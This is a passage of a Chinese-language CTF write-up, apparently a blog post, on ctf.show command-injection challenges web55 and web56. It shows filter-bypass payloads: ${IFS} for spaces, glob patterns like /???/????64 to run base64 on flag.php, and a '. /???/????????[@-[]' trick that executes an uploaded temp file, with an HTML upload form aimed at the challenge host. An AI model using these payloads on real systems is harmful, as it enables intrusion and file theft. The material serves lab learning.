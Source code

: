 
```ruby
/?c=mv${IFS}fl?g.php${IFS}a.txt
```

然后flag.php就改名为a.txt，然后直接访问就可得到flag！

、![image-20220317203859480](https://img-blog.csdnimg.cn/img_convert/e837bd3b08b454d24535a7c6106360c1.png)

# web55

![image-20220317203934001](https://img-blog.csdnimg.cn/img_convert/653d377c2685bb62476c10de14885d8b.png)

这个过滤了所有的字母

```ruby
/?c=/???/????64 ????.???                     //也就是?c=/bin/base64 flag.php
```

> 通过匹配bin下存在的命令进行读取flag。
> bin为binary的简写，主要放置一些系统的必备执行档例如:cat、cp、chmod df、dmesg、gzip、kill、ls、mkdir、more、mount、rm、su、tar、base64等。
> 我们日常直接使用的cat或者ls等等都其实是简写，例如ls完整全称应该是/bin/ls

![image-20220317204237757](https://img-blog.csdnimg.cn/img_convert/e679879b1ff44565794c5d7cd390f6f5.png)

解码得到flag！![image-20220317204255791](https://img-blog.csdnimg.cn/img_convert/4bd5ac966929899e17bbcc5d947542f8.png)

# web56

![image-20220317204357217](https://img-blog.csdnimg.cn/img_convert/50103b39becb5108db93629fa923e5ff.png)

还是过滤了所有的字母！

抓包后西显示如下

![image-20220317205344974](https://img-blog.csdnimg.cn/img_convert/aec14bda1c19a17cd006cd8c533b6f22.png)

构造poc执行命令

`?c=.+/???/????????[@-[]`
注：后面的`[@-[]`是linux下面的匹配符，是进行匹配的大写字母。
![在这里插入图片描述](https://img-blog.csdnimg.cn/img_convert/fc24d532365665aa4feb4eb5f68c148a.png)

在这个之前我们需要构造一个post上传文件的数据包。

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>POST数据包POC</title>
</head>
<body>
<form action="http://46230c96-8291-44b8-a58c-c133ec248231.chall.ctf.show/" method="post" enctype="multipart/form-data">
<!--链接是当前打开的题目链接-->
    <label for="file">文件名：</label>
    <input type="file" name="file" id="file"><br>
    <input type="submit" name="submit" value="提交">
</form>
</body>
</html>
```
